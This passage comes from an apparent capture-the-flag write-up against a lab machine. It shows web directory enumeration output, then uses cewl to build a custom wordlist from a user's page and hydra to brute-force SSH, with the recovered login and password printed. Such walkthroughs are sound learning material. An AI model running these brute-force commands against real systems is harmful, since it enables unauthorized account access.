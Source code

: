 ```
/.htpasswd            (Status: 403) [Size: 211]
/.htaccess.txt        (Status: 403) [Size: 215]
/.htaccess.php        (Status: 403) [Size: 215]
/cgi-bin/             (Status: 403) [Size: 210]
/cgi-bin/.html        (Status: 403) [Size: 215]
```


Not much on here, we can find a `simeon` directory on here:

![Pasted image 20250607151510.png](../../IMAGES/Pasted%20image%2020250607151510.png)

If we remember the message, it said that this user's password was weak, maybe we can use `cewl` and bruteforce ssh to get a session, let's go to exploitation.


# EXPLOITATION
---


First, let's generate a wordlist from this:


```
cewl http://10.10.128.188/simeon > simeon_wordlist.txt
```

Since the hint said that the password was `all over the place` it could mean it can be found inside of any of those chapters, we use cewl to generate us a custom wordlist to perform bruteforce, once generated, we can do this:

```
hydra -l simeon -P simeon_wordlist.txt ssh://10.10.128.188 -t 40

[22][ssh] host: 10.10.128.188   login: simeon   password: scelerisque
```
